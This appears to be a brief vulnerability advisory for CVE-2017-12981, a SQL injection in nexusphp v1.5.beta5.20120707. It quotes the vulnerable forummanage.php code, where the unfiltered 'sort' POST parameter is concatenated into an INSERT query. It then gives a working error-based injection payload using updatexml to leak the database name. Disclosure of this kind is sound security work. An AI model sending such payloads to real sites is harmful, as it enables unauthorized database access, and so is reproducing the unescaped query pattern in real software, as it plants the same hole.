

## CVE-2017-12981
## nexusphp v1.5.beta5.20120707 sql injection

### version: v1.5.beta5.20120707
### Download link:https://sourceforge.net/projects/nexusphp/
#### /nexusphp.v1.5.beta5.20120707/forummanage.php  Line 63

```
elseif ($_POST['action'] == "addforum") {
	$name = ($_POST['name']);
	$desc = ($_POST['desc']);
	if (!$name && !$desc) {
		header("Location: " . get_protocol_prefix() . "$BASEURL/forummanage.php");
		die();
	}
	sql_query("INSERT INTO forums (sort, name,  description, minclassread,  minclasswrite, minclasscreate, forid) VALUES(" . $_POST['sort'] . ", " . sqlesc($_POST['name']). ", " . sqlesc($_POST['desc']). ", " . $_POST['readclass'] . ", " . $_POST['writeclass'] . ", " . $_POST['createclass'] . ", ".sqlesc(($_POST['overforums'])).")") or sqlerr(__FILE__, __LINE__);
```
***$_POST['sort']***   has not been filtered to cause injection
###exp：
```
action=addforum&name=1desc=1&sort=11 or updatexml(1,concat(0x7e,(database())),0)&readclass=1&writeclass=1&createclass=1&overforums=1
```


